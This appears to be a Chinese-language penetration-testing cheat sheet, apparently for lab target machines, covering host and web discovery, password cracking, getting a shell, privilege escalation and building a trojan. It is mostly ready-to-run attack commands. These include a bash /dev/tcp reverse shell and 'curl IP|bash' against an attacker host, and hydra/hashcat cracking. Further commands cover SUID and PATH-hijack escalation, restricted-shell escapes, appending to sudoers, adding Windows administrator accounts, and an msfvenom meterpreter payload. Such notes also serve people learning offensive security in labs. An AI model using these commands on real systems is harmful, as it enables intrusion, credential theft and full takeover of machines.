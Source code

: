 # 主机发现阶段

`arp-scan --interface=eth0 -l | grep *`

指定接口扫描 换成IP可以指定网段

`nmap -sV -p- -sT -sC  ip`

扫描靶机的版本基本漏洞扫描 使用 `--script=vuln` 可以扫描漏洞，使用 `--min-rate` 指定速率

# web探索阶段

`dirb +http:// ip` 

扫描网站目录 `-w` 可以指定字典

在一定的探索基础上可以使用wpscan 扫描wrodpress的cms的网站信息

`wpscan --url=http://ip --ignore-main-redirect --force  -e --plugins-detection aggressive`

数据库连接

`mysql -h ip -D database-u seeddms -p seeddms`

数据库注入

`system cmd`

`select cmd into outfile 路径`

`update tablename set columnname ="content" where columnname=""`

md5破解和计算

`echo -n ""|md5sum`

`hashcat -a 0 -m 0 hashValue /usr/share/wordlists/rockyou.txt`

`hydra -L userList -P passwordList ssh://ip -V`

samba枚举

`enum4linux ip`

# Getshell阶段

file_upload&RCE

反弹shell

前置知识

| command > file  | 将输出重定向到 file。                              |
| --------------- | -------------------------------------------------- |
| command < file  | 将输入重定向到 file。                              |
| command >> file | 将输出以追加的方式重定向到 file。                  |
| n > file        | 将文件描述符为 n 的文件重定向到 file。             |
| n >> file       | 将文件描述符为 n 的文件以追加的方式重定向到 file。 |
| n >& m          | 将输出文件 m 和 n 合并。                           |
| n <& m          | 将输入文件 m 和 n 合并。                           |
| << tag          | 将开始标记 tag 和结束标记 tag 之间的内容作为输入。 |

> *需要注意的是文件描述符 0 通常是标准输入（STDIN），1 是标准输出（STDOUT），2 是标准错误输出（STDERR）*

`bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1`

`curl IP|bash`(需要80开放)

`msfvenom -l payloads | grep 'cmd/unix/reverse'`

ssh登录

`ssh [-l login_name] [-p port] [user@]hostname`

# 提权

传输文件：

nc：

靶机上监听端口: `nv -lnvp 4545(port) > 123.c`

kali上传文件: `nc 192.168.88.* 4545(port) < 123.c -w 1`

利用nc将kali的文件上传到靶机，这里靶机监听端口将文件写入123.c。kali这里ip为靶机ip 然后将123.c上传过去

`python -m http.server 8080` 

`php -S 0:80 `

`searchsploit * -m *`

`sudo -l` 列出权限

sudo -i 提权

SUID提权：

> 具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有SUID权限

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

查找特权命令

`find pentestlab -exec whoami \;`

`vim bash less more`

`awk 'BEGIN {system("/bin/bash")}'`

`man passwd !/bin/bash`

环境变量+SUID

```
cd /tmp
echo “/bin/sh” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
```

绕过被限制的shell

```
BASH_CMDS[a]=/bin/sh;a  注：把/bin/bash给a变量`
export PATH=$PATH:/bin/    注：将/bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   注：将/usr/bin作为PATH环境变量导出
```



`echo "username ALL=(ALL:ALL) ALL" | sudo cmd -a /etc/sudoers`

内核提权：

`脏牛 影响范围：Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。`

`cat /etc/crontab`

[Linux配置错误提权之利用/etc/passwd](https://blog.csdn.net/qq_44159028/article/details/121078898)

```
net user 账户 密码 /add
管理员权限，所有直接加
net localgroup administrators admin /add
```

# 木马注入

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -a x86 --platform Windows -f exe > shell.exe`

